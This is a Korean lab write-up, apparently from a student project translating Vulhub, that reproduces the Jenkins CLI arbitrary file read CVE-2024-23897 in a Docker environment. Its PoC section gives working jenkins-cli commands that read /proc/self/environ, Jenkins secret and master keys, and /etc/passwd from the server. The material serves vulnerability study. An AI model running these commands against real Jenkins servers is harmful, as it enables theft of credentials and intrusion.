 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.
**발견된 취약점**
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.
**args4j**
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.
``` docker compose up -d ```
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
`http://localhost:8080/' or 'http://본인-ip주소:8080/'
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'
**컨테이너 접속하기**
```docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```
## PoC
1. 'jenkins-cli.jar'을 해당 링크, 'http://localhost:8080/jnlpJars/jenkins-cli.jar'로부터 다운로드한다.
> ```apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치```
2. '/proc/self/environ' 파일을 읽는다. 'JENKINS_HOME=/var/jenkins_home'
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

